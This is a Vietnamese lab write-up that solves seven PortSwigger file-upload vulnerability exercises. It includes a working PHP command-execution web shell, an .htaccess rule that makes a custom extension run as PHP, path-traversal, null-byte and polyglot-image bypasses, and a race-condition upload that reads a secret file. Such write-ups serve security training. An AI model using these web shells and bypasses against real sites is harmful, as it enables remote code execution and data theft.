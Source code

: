 # File upload vulnerabilities - Portswigger
## 1. Remote code execution via web shell upload
Bài này khá đơn giản mình chỉ cần upload một file .php chứa webshell lên thay vì ảnh bình thường là được
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
![image](https://hackmd.io/_uploads/SJ1f3FP_1e.png)
Ta dùng lệnh để đọc nội dung trong file secret và có được secret là `TswuW44vMztdKYo8mmAF4TkkJgZjPP8H`
![image](https://hackmd.io/_uploads/rk14nYvd1e.png)
Nạp secret và solved được lab.
## 2. Web shell upload via Content-Type restriction bypass
Lần này ta chỉ việc thay đổi content-type thành `image/png` là đã upload thành công webshell
![image](https://hackmd.io/_uploads/rJjGTKPOyg.png)
Dùng lệnh đọc và lấy được secret `KnLwUfLjerQDbWM72RyBeFGqdI6zSjkh`
![image](https://hackmd.io/_uploads/SkAmTYwdJg.png)
Submit và đã solved được lab.
![image](https://hackmd.io/_uploads/SJ8U6KvO1x.png)
## 3. Web shell upload via path traversal
Ta đọc đề thì thấy ta cần kết hợp với lỗi path traversal. Mình có thử upload lên nhưng webshell không hoạt động
![image](https://hackmd.io/_uploads/H17bAKPdyl.png)
Vậy ta cần đổi tên file để có thể upload ra ngoài thư mục avatars và webshell ta nó sẽ hoạt động.
Ta search payload ở [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md)
![image](https://hackmd.io/_uploads/S1BYAKvdJx.png)
Có vẻ nhưng `../` , `..\` , `../\` đều đã bị chặn. Nên mình đã dùng `%2e%2e%2f` thì đã upload được thành công ra ngoài.
![image](https://hackmd.io/_uploads/SkwCAYPOJe.png)
Truy cập bằng `files/test.php` và đọc file thì được secret `ivFsLt8JIcyD0Y8EriCp5xEg3Mre4OOW`
![image](https://hackmd.io/_uploads/H1o-J5Pd1x.png)
Submit và đã solved được lab.
![image](https://hackmd.io/_uploads/ByN7J5DOyl.png)
## 4. Web shell upload via extension blacklist bypass
Lần này đã bị block hết đuôi `.php`
![image](https://hackmd.io/_uploads/BJw4z5wO1l.png)
Và không upload được, mình có thử các đuôi khác như php3,php5,php7,... thì file không hoạt động.
Đọc hint thì thấy cần up 2 file khác nhau
![image](https://hackmd.io/_uploads/SJ5LGqDd1g.png)
Đọc document thì phát hiện ra ta có thể upload file .htaccess và ghi đè lên nó
![image](https://hackmd.io/_uploads/Sye2z9vuJe.png)
Ta có thể cho 1 đuôi bất kỳ nhưng vẫn hoạt động như file .php bằng nội dung sau thì file .test sẽ hoạt động như .php
```
<FilesMatch "\.test$">
    SetHandler application/x-httpd-php
</FilesMatch>
```
![image](https://hackmd.io/_uploads/SyCrXqDdyg.png)
Giờ ta chỉ việc sửa đuôi file và tên file là `test.test` và upload thôi
![image](https://hackmd.io/_uploads/B1l_m9wdke.png)
Vậy là ta đã upload thành công giờ chỉ việc đọc file và lấy được secret là `VQMWq5rpLrkIqlUiBzngnRvFd9skJLJX`
![image](https://hackmd.io/_uploads/ryr37cw_ke.png)
Nạp và ta đã solved được lab.
![image](https://hackmd.io/_uploads/Hy26m5vdyx.png)
## 5. Web shell upload via obfuscated file extension
Ta tiếp tục đọc document
![image](https://hackmd.io/_uploads/B15KNcD_kl.png)
Thì bày này chỉ chấp nhận việc ta upload file `.jpg` hoặc là `.png`
![image](https://hackmd.io/_uploads/B1eSBcPOyg.png)
Và nó chỉ cần có đuôi `.jpg` hoặc `.png` ở cuối là được ta có thể bypass bằng cách thêm byte null trước đuôi `.png` thì vẫn bypass qua được nhưng đuôi `.png` sẽ biến mất
![image](https://hackmd.io/_uploads/ry1hr9Dukx.png)
Vậy là ta đã upload thành công. Giờ chỉ việc đọc file và có được secret là `rHv3lt6txH4VT1iYVdvztrkbOh7qgGQa`
![image](https://hackmd.io/_uploads/SypE8cDOJl.png)
Và solved được lab
![image](https://hackmd.io/_uploads/SkbILcvdyl.png)
## 6. Remote code execution via polyglot web shell upload
Vì bài này chỉ check content trong có chính xác là bức ảnh hay không nên ta thử đổi tên file là `.php` thì vẫn upload bình thường
![image](https://hackmd.io/_uploads/rkpA_cD_ye.png)
Giờ ta chỉ việc chèn webshell ở dưới nội dung ảnh và up lên là được
![image](https://hackmd.io/_uploads/ryRWY5vdJe.png)
Và ta đã upload thành công webshell lên và lấy được secret là `tVhTcZSPJdxe2ObMmUN7bY2oletBZsnU`
![image](https://hackmd.io/_uploads/ByxEF9wO1g.png)
Submit và đã solved được lab
![image](https://hackmd.io/_uploads/r1irK5v_1e.png)
## 7. Web shell upload via race condition
Mình thử upload 1 loạt file lên thì đều không thành công
![image](https://hackmd.io/_uploads/Bk1cdsDOJe.png)
Nên đọc thử document
![image](https://hackmd.io/_uploads/B1wROjPdye.png)
Và đọc hint thì ta có sourcecode
```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```
Thì có vẻ giống như document nó vẫn tải lên và lưu trữ  sau đó mới chuyển rồi kiểm tra và khi không vượt qua kiểm tra thì mới xóa.
Trong thời gian di chuyển thì mình có thể chèn thêm 1 request `GET` để chạy file mình vừa upload lên
Nội dung file là:
```php
<?php
echo "<pre>" . htmlspecialchars(file_get_contents('/home/carlos/secret')) . "</pre>";
?>
```
Và ta gộp thành group và sử dụng chức năng `Send group (parallel)` để có thể gửi 2 request này cùng lúc.
![image](https://hackmd.io/_uploads/rJpoFivuyl.png)
Cách này còn tùy thuộc vào mạng nhà bạn và độ nhân phẩm =))
Sau rất nhiều lần gửi đi gửi lại thì mình đã đọc và có được secret.
![image](https://hackmd.io/_uploads/H1wLujP_kx.png)
Đem đi nạp và solved được lab.
![image](https://hackmd.io/_uploads/HkPwOiPuyl.png)
